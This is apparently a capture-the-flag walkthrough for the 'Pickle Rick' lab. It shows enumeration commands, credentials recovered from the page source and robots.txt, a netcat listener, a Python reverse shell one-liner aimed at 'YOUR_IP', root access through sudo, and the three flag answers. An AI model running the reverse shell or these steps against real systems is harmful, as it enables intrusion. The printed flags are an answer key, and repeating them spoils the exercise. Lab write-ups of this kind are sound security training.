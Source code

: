 # Pickle Rick CTF Walkthrough

This is a walkthrough for the Pickle Rick CTF challenge. The goal was to help Rick by finding three secret ingredients on the vulnerable web server.
![](https://maxschmittlaurin.github.io/assets/rick.PNG)

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV -oN nmap.txt <TARGET_IP>
```

### Gobuster Scan
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/big.txt
```

**Discovered:**
- `/robots.txt`
- `/login.php`

---

## 2. Information Gathering

- Navigated to the IP in browser.
- Inspected page source and found:
  - Username: `R1ckRul3s`
- Accessed /robots.txt and found:
  - Password: `wubbalubbadubdub`

---

## 3. Login and Initial Shell Access

- Used credentials to log in to `/login.php`:
  - **Username**: `R1ckRul3s`
  - **Password**: `wubbalubbadubdub`
- Upon login, got a basic web-based command shell.

---

## 4. File Discovery

- Ran `ls` and `grep . <file name>` (cat and head command was blocked)
-  found the first secret ingredient:
  ```
  1st Ingredient: Mr. Meeseeks Hair
  ```

---

## 5. Python Availability Check

- Checked for Python3:
  ```bash
  python3 -c 'print("hello")'
  ```
- Confirmed Python3 was available.

---

## 6. Python Reverse Shell

Started a netcat listener on my machine:
```bash
nc -lvnp 4444
```

Executed the reverse shell command via web shell:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

- Got a reverse shell back.

---

## 7. Privilege Escalation

- Escalated to root without any advanced techniques.
- just by typing `sudo su`

---

## 8. Ingredients Collection

- Found the second ingredient in `/home/rick`:
  ```
  2nd Ingredient: 1 Jerry Tear
  ```

- Found the final ingredient in `/root`:
  ```
  3rd Ingredient: Fleeb Juice
  ```

---

## Conclusion

Successfully exploited the web server and helped Rick by collecting all three ingredients.

Mission accomplished.
